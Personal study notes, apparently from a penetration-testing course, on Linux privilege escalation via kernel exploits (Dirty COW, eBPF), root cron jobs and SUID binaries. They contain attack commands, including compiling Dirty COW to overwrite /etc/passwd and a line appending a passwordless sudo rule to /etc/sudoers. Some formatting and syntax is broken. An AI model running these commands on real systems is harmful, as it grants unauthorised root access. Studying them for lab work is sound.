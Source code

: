 ```yaml
--- 
Kernel exploits on Linux will typically target vulnerabilities In the Linux
kernel to execute arbitrary code in order to run privileged system commands or to obtain a system shell.

- This process will differ based on the Kernel version and distribution being
targeted and the kernel exploit being used.

- Privilege escalation on Linux systems will typically follow the following
methodology:
	+ Identifying kernel vulnerabilities
	+ Downloading, compiling and transferring kernel exploits onto the target system.



### [Linux-Exploit-Suggester](https://github.com/mzet-/linux-exploit-suggester)
This tool is designed to assist in detecting security deficiencies for given Linux kernel/Linux-based machine. It assesses (using heuristics methods) the exposure of the given kernel on every publicly known Linux kernel exploit.

### Steps to Exploit: 

1.  Detecting security deficiencies for given Linux kernel/Linux-based machine.

``` bash
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
#Download the script

 ./linux-exploit-suggester.sh
# Run the script
...
```

[+] [CVE-2017-16995] eBPF_verifier

   Details: https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html
   Exposure: highly probable
   Tags: debian=9.0{kernel:4.9.0-3-amd64},fedora=25|26|27,[ ubuntu=14.04 ]{kernel:4.4.0-89-generic},ubuntu=(16.04|17.04){kernel:4.(8|10).0-(19|28|45)-generic}
   Download URL: https://www.exploit-db.com/download/45010
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1
```

 2. Try to exploit the vulnerabilityyou have 
 3. 
 ``` bash
meterpreter > shell 
> /bin/bash -i bash
```

### Dirty COW (CVE-2016-5195)
A race condition was found in the way the Linux kernel's memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings. All the information we have so far is included in this page.

-   An unprivileged local user could use this flaw to gain write access to otherwise read-only memory mappings and thus increase their privileges on the system.
-   This flaw allows an attacker with a local system account to modify on-disk binaries, bypassing the standard permission mechanisms that would prevent modification without an appropriate permission set.
- 
The exploitdb proof of concepts available [here](https://www.exploit-db.com/exploits/40839)

``` bash
# Compile with:
gcc -pthread dirty.c -o dirty -lcrypt

# Then run the newly create binary by either doing:
"./dirty" or "./dirty my-new-password">

#DON'T FORGET TO RESTORE YOUR /etc/passwd AFTER RUNNING THE EXPLOIT!
mv /tmp/passwd.bak /etc/passwd

```

## Cron Jobs

- Linux implements task scheduling through a utility called Cron.

- Cron is a time-based service that runs applications, scripts and other commands
repeatedly on a specified schedule.

- An application, or script that has been configured to be run repeatedly with Cron
is known as a Cron job. Cron can be used to automate or repeat a wide variety of
functions on a system, from daily backups to system upgrades and patches.

- The crontab file is a configuration file that is used by the Cron utility to store and
track Cron jobs that have been created.

## Exploiting Misconfigured Cron Jobs

- Cron jobs can also be run as any user on the system, this is a very important
factor to keep an eye on as we will be targeting Cron jobs that have been
configured to be run as the “root” user.

-  This is primarily because, any script or command that is run by a Cron job will
run as the root user and will consequently provide us with root access.

- In order to elevate our privileges, we will need to find and identify cron jobs
scheduled by the root user or the files being processed by the cron job.

```
crontab -l
grep -rnw /usr -e "/home/student/message"
 printf “#!/bin/bash\necho "student ALL=NOPASSWORD:ALL" >> '/etc/sudoers' > /usr/local/share/copy.sh
```




![[Pasted image 20230419104635.png]]


## Exploiting SUID Binaries

-  In addition to the three main file access permissions (read, write and execute), Linux also provides users with specialized permissions that can be utilized in specific situations. One of these access permissions is the SUID (Set Owner User ID) permission.

-  When applied, this permission provides users with the ability to execute a script or binary with the permissions of the file owner as opposed to the user that is running the script or binary.

-  SUID permissions are typically used to provide unprivileged users with the ability to run specific scripts or binaries with “root” permissions. It is to be noted, however, that the provision of elevate privileges is limited to the execution of the script and does not translate to elevation of privileges, however, if improperly configured unprivileged users can exploit misconfigurations or vulnerabilities within the binary or script to obtain an elevated session.

This is the functionality that we will be attempting to exploit in order to elevate our
privileges, however, the success of our attack will depend on the following factors:

>	○ Owner of the SUID binary – Given that we are attempting to elevate our privileges, we will only be exploiting SUID binaries that are owned by the “root” user or other privileged users.
>	
>	○ Access permissions – We will require executable permissions in order to execute the SUID binary.

```bash
 file welcome
 strings welcome
 ```
## Linux Password Hashes
-  Linux has multi-user support and as a result, multiple users can access the system
simultaneously. This can be seen as both an advantage and disadvantage from a security perspective, in that, multiple accounts offer multiple access vectors for attackers and therefore increase the overall risk of the server.

- All of the information for all accounts on Linux is stored in the passwd file located in: /etc/passwd

-  We cannot view the passwords for the users in the passwd file because they are encrypted and the passwd file is readable by any user on the system.

-  All the encrypted passwords for the users are stored in the shadow file. it can be found in the following directory: /etc/shadow

-  The shadow file can only be accessed and read by the root account, this is a very important security feature as it prevents other accounts on the system from accessing the hashed passwords.

- The passwd file gives us information in regards to the hashing algorithm that is being used and the password hash, this is very helpful as we are able to determine the type of hashing algorithm that is being used and its strength. We can determine this by looking at the number after the username encapsulated by the dollar symbol ($).

![[Pasted image 20230419112640.png]]
